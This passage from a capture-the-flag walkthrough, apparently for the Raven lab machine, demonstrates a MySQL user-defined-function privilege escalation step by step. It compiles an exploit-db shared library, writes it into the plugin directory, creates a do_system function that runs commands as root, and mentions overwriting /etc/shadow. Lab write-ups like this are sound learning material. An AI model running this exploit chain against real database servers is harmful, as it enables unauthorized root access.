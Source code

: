 Seems easy enough. I compiled the shared library in my Kali instance: 

```
root@kali:~# cp /usr/share/exploitdb/exploits/linux/local/1518.c .
root@kali:~# gcc -g -shared -Wl,-soname,1518.so -o 1518.so 1518.o -lc
```

Once that was done, I copied it over to the target's `/tmp` directory via `scp`:

```
root@kali:~# scp 1518.so michael@raven.local:/tmp
michael@raven.local's password:
bash: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)
1518.so
```

We can ignore the warning. The `1518.so` file should now be in `/tmp` on the target. We can verify this:

```
michael@Raven:~$ ls -l /tmp/
total 20
-rwxr-xr-x 1 michael michael 19136 Nov  9 16:18 1518.so
```

Ok, let's see if we can utilize this UDF exploit technique. Log into MySQL as root and run the following commands as I did: 

```
mysql> create table foo(line blob);
Query OK, 0 rows affected (0.01 sec)

mysql> insert into foo values(load_file('/tmp/1518.so'));
Query OK, 1 row affected (0.01 sec)

mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/1518.so';
Query OK, 1 row affected (0.01 sec)

mysql> create function do_system returns integer soname '1518.so';
Query OK, 0 rows affected (0.00 sec)
```

Quick explanation of what's happening here. The first line creates a table that takes a blob (Binary Large Object). The reason we use a blob is because we're going to be copying the contents of `/tmp/1518.so` into this table and that shared library is a binary. That's exacly what the second line does with the `load_file` function. 

The third line takes the contents of that table and dumps it into a `/usr/lib/mysql/plugin/1518.so`. This is basically a roundabout way to write files to root-writable only locations. So technically you could use this technique to read the contents of `/etc/shadow`, edit the hash for the root account with one that you have the password to, and dump the contents of that table to `/etc/shadow` thereby overwriting it. However, I'd prefer not to modify any important files, so let's  keep going. 

The fourth line creates a function called `do_system()` that will allow us to run any commands as the root user. Let's see it in action. The first command I'll try is `id` just to make sure that we're running as root. It'll save the output into `/tmp/out`:  

```
mysql> select do_system('id > /tmp/out; chmod 644 /tmp/out');
+------------------------------------------------+
| do_system('id > /tmp/out; chmod 644 /tmp/out') |
+------------------------------------------------+
|                                              0 |
+------------------------------------------------+
1 row in set (0.00 sec)
```
